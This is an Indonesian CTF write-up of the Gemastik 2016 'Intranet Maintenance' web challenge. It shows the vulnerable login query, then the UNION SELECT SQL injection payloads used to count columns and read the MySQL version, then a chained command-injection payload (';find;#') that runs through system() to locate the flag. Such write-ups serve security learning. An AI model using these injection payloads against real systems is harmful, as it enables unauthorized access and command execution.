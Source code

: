 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Intranet Maintenance - 125"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: gemastik
tags: [gemastik,ctf]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Intranet Maintenance](/images/intranet-maintenance.png)


### Solusi :

Sesuai dengan clue yang diberikan, kami membuka index.php~ dan menemukan source code file index.php.
setelah kami membaca  source code tersebut kami melihat kemungkinan untuk melakukan sql injection :

`$query = "SELECT * FROM users WHERE email='$email' AND password='$password';";`

kemudian kami mencoba union dengan sleep pada kolom email untuk memastikan query berjalan sesuai keinginan kita.

`' UNION SELECT SLEEP(10) # < NORMAL`

`' UNION SELECT SLEEP(10),1 #   < NORMAL`

`' UNION SELECT SLEEP(10),1,1 # < ERROR`

Ternyata ditemukan 3 kolom union lalu kami mengecek version dari mysqlnya dengan

`' UNION SELECT 1,@@VERSION,1 #`

![Intranet maintenance mysql](/images/intranet-maintenance-mysql.png)

Kemudian kita melihat bahwa input kita masuk ke dalam system() Dan memungkinkan kita untuk melakukan command injection

![Intranet maintenance system](/images/intranet-maintenance-system.png)

Kami kemudian mencoba untuk melakukan injeksi command dengan menggunakan separator `;payload;#`
Kemudian kami sisipkan command pada kolom email

`' UNION SELECT 1,';find;#',1 #`

![Intranet maintenance find](/images/intranet-maintenance-find.png)

Dan ditemukan flag pada `db.php.save`

![Intranet maintenance flag](/images/intranet-maintenance-flag.png)

`GEMASTIK{just_another_admin_who_dont_care_about_s3cur1ty}`


